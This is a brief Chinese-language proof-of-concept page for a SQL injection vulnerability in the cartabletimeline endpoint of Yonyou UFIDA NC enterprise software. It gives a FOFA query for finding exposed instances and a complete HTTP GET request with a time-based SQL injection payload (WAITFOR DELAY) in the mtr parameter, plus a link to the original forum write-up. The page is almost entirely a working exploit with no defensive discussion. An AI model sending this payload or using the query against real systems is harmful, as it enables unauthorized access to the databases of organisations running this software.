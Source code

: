 # 用友NC-cartabletimeline存在SQL注入漏洞

## fofa

```yaml
app="用友-UFIDA-NC"
```

## poc

```javascript
GET /portal/pt/cartabletimeline/doList?pageId=login&mtr=1)WAITFOR+DELAY+%270:0:2%27--+ HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Priority: u=4
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411280915472.png)



## 漏洞来源

- https://forum.butian.net/article/627
